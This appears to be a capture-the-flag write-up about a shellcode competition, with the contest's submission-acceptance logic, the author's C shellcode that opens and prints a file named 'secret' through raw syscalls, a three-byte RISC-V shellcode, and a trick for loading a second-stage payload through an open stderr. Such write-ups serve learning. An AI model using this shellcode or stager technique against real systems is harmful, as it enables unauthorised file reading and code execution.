 ```python
# if the shellcode avoids bytes used by the previous winner, accept it.
# The avoided bytes will be added to the block list for future submissions.
if set(previous_shellcode) - set(shellcode):
    print("Congrats! You have evolved past the bytes used by your opponents.")
    return True

# if the shellcode is shorter, accept it
if len(shellcode) < len(previous_shellcode):
    print("Congrats! You have progressed on your journey to elegance.")
    return True
```

  - An important detail was that you could see other teams' solutions, allowing
    you to steal them for use in later rounds.

  - The server accepts x86_64, aarch64, and riscv64 shellcode. I started by
    writing basic `openat, read, write` shellcode in C:

```c
#include "syscall_x86_64.h"

void _start() {
    char name[7] = "secret";  // Put it on the stack
    int fd = __syscall3(__NR_openat, -100, name, 0);

    char buf[32];
    __syscall3(__NR_read, fd, buf, 32);
    __syscall3(__NR_write, 1, buf, 32);
}
```

  - I was hoping to be able to compile it for aarch64 and riscv64 as well, but
    due to the way the stack works for those architectures, I ended up having to
    write it by hand anyway.

  - After writing basic shellcode for the three architectures, it was 2:30 AM
    so I took a nap until 6 AM so that I'd have time to write a client to
    automatically scrape and submit shellcodes before the CTF started.

## Sunday

- When I woke up, I saw that yonghwi had come up with this 3 byte RISC-V shellcode:

```asm
c.li x0, 2
ecall
```

- What the heck???
- So it turns out that the shellcode runner leaves `stderr` open. I assumed that
  this was just for debugging purposes, but you can actually abuse this like
  so:
  - Read `openat, read, write` payload from `stderr`
  - Execute it
